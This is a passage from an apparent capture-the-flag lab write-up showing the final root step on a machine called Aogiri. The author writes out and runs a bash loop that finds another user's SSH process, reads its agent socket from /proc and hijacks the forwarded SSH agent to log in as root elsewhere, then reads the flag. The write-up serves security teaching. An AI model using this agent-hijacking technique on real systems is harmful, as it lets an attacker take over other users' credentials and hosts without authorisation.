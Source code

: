 ```

Last login: Tue May 28 07:00:01 2019 from 172.18.0.200
root@Aogiri:~#

```

But more fun is to create a `bash` one-liner that watches for the connection and connects when it’s time:

```

root@kaneki-pc:/tmp# while true; do
>  export pid=$(ps -u kaneki_adm | grep ssh$ | tr -s ' ' | cut -d' ' -f2);
>  if [ ! -z $pid ]; then
>    echo "[+] Found pid for kaneki_adm ssh process: $pid";
>    export SSH_AUTH_SOCK=$(su kaneki_adm -c 'cat /proc/${pid}/environ' | sed 's/\x0/\n/g' | grep SSH_AUTH_SOCK | cut -d'=' -f2);
>    echo "[+] Found ssh auth socket: $SSH_AUTH_SOCKET";
>    echo "[*] sshing to target";
>    ssh root@172.18.0.1 -p 2222;
>    break;
>  fi;
>  sleep 5;
> done                                                                                                                                                                                        
[+] Found pid for kaneki_adm ssh process: 20652
[+] Found ssh auth socket: /tmp/ssh-p5macmIvgg/agent.20329
[*] sshing to target
Welcome to Ubuntu 18.04.1 LTS (GNU/Linux 4.15.0-45-generic x86_64)
 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

155 packages can be updated.
0 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Tue May 28 22:24:01 2019 from 172.18.0.200
root@Aogiri:~# 

```

Either way, I can now finally grab `root.txt`:

```

root@Aogiri:~# cat root.txt 
7c0f1104...

```
